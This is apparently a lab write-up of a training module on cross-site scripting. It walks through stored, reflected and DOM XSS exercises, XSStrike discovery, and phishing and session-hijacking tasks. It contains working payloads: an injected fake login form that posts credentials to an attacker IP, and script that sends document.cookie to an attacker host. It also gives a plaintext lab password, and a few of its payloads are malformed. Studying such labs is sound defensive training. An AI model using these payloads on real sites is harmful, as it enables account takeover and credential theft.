# Cross-site scripting (XSS)

## XSS Basics

XSS vulnerabilities are solely executed on the client-side and hence do not directly affect the back-end server. They can only affect the user executing the vulnerability. The direct impact of XSS vulnerabilities on the back-end server may be relatively low, but they are very commonly found in web applications, so this equates to a medium risk (low impact + high probability = medium risk), which we should always attempt to reduce risk by detecting, remediating, and proactively preventing these types of vulnerabilities.

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### Stored XSS

If our injected XSS payload gets stored in the back-end database and retrieved upon visiting the page, this means that our XSS attack is persistent and may affect any user that visits the page.

**To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

`alert(document.cookie)<script>`

### Reflected XSS

Processed entirely at the back-end of the server. Not persistent as they disappear after a page refresh. Reaches the back-end server and returns to us unfiltered and unsanitised… oh the fun we can have!

**Same task, it’s just that this doesn’t persist:**

`alert(document.cookie)<script/>`

### DOM XSS

Processed completely client-side and non-persistent (disappears after a page refresh).

This type of vulnerability exists when you can use Javascript code to alter a Document Object Model (DOM). To truly understand DOM attacks let’s talk about source and sink…

**Same as above just with DOM…**

`<img src="" onerror=alert(document.cookie)>`

### XSS Discovery

Automated Discovery

<figure><img src=".gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`python xsstrike.py -u “http://SERVER_IP:PORT/index.php?task=test"`

Manual Discovery — XSS Payloads

Long story short, I might need to do some more python classes at some point. Python scripts would make this a hell of a lot more useful later on in my XSS seeking endeavours.

**Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter?**

<figure><img src=".gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

**What type of XSS vuln is it?**

Literally says “Reflections found” so your answer is “reflected”.

## XSS Attacks

### Phishing

Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

**Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.**

First we use XSStrike python script mentioned earlier to find a payload:

<figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

`'><a/+/OnMOUSEoVER%09=%09[8].find(confirm)>v3dm0s`

Add it to make it a valid JavaScript piece of code with the login form from earlier:

`ifconfig`

* find your IP

```
‘><script>document.write(‘<h3>Please login to continue</h3><form action=http://10.10.14.63/><input type=”username” name=”username” placeholder=”Username”><input type=”password” name=”password” placeholder=”Password”><input type=”submit” name=”submit” value=”Login”></form>’);document.getElementById(‘urlform’).remove();</script><!--
```

**Crafted malicious final URL:**

{% embed url="http://10.129.85.225/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.14.63%2F%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E%3C%21--" %}

<figure><img src=".gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

### admin:p1zd0nt57341myp455

go to URL: [http://10.129.85.225/phishing/login.php](http://10.129.85.225/phishing/login.php)

login to obtain FLAG

### Session Hijacking

**Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.**

URL: http://10.129.85.225/hijacking/index.php

<figure><img src=".gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

`"><script src=http://10.10.14.63:8080/></script>`

**4x**

<figure><img src=".gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

```
nano script.js
```

```
new Image().src='http://10.10.14.46/index.php?c='+document.cookie;
```

<figure><img src=".gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

login.php -> update cookie and login

<figure><img src=".gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

## Skills Assessment

**What is the value of the 'flag' cookie?**

{% embed url="http://10.129.219.0/assessment/" %}

<figure><img src=".gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Go to Recent post

<figure><img src=".gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

`"><script src=http://10.10.14.63:8080/comment></script>`

`"><script src=http://10.10.14.63:8080/name></script>`

`"><script src=http://10.10.14.63:8080/url></script>`

<figure><img src=".gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

\=> VULn field is URL

```
nano script.js
```

```
new Image().src='http://10.10.14.63:8080/index.php?c='+document.cookie;
```



Write a script in the URL field

`<script src=http://10.10.14.63:8080/script.js></script>`

<figure><img src=".gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

